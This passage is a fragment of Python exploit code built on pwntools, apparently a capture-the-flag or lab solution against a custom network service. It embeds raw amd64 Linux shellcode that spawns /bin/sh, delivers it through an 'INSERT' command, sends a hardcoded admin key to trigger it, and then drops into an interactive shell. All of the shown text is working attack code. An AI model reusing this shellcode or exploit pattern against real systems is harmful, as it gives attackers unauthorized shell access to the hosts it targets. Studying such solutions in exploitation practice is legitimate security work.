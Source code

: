 ```python
        msg = msg.ljust(pad, b'\0')
    print("<<<", msg)
    conn.send(msg)

def recv_line():
    print(">>>", conn.recvline())

# shellcode = asm(shellcraft.amd64.linux.sh())
shellcode = b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'

key = (1499022667).to_bytes(4, 'little')

hook_log()

send_command("INSERT")
send_line(len(shellcode).to_bytes(4, 'little'))
send_line(shellcode)

send_command("ADMIN")
send_line(key) # correct key

time.sleep(1)

conn.interactive()
```
